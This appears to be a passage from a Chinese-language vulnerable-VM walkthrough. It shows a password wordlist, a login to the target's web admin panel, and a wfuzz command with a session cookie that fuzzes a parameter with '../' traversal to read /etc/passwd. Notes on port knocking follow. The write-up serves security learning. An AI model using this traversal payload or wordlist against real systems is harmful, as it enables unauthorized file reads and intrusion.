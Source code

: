 ```
# pwd

3kfs86sfd
468sfdfsd2
4sfd87sfd1
RocksOff
TC&TheBoyz
B8m#48sd
Pebbles
BamBam01
UrAG0D!
Passw0rd
yN72#dsd
ILoveRachel
3248dsds7s
smellycats
YR3BVxxxw87
Ilovepeepee
Hawaii-Five-0
transorbital1
```



- 以用户名为admin登录靶机web后台

![image-20210705225719960](http://cdn.mxrblog.cn/image-20210705225719960.png)

- 发现底部有着 “file does not exist”,可能存在着LFI（文件包含漏洞）
- 而且这里的包含变量有可能是file不妨尝试一下
  经过不停的返回上一级目录（尝试）
- 使用wfuzz去fuzz LFI 

```
wfuzz  --hh 1341 -b 'PHPSESSID=m5bn4run22bpvrdgebofik7tbd' -c -w common.txt http://192.168.1.10/manage.php?FUZZ=../../../../../../../etc/passwd
```

![image-20210705232745889](http://cdn.mxrblog.cn/image-20210705232745889.png)

- 获得包含指定变量名的文件为file

```
SSH服务是容易被攻击的，相应的就衍生出一系列保护SSH的方法：

1、端口变化，并加强配置

2、设置用户白名单

3、完全隐藏允许SSH访问的事实，要求根据特殊的“敲门”序列识别有效用户：https://zhuanlan.zhihu.com/p/43716885

第三种方法常使用的工具是knockd，它侦听以太网或其他可用接口上的所有流量，等待特殊序列的端口命中。
```

- 通过查看目标服务器运行进程看看是否开启了knockd
- /proc/sched_debug中存放的是CPU的调度情况
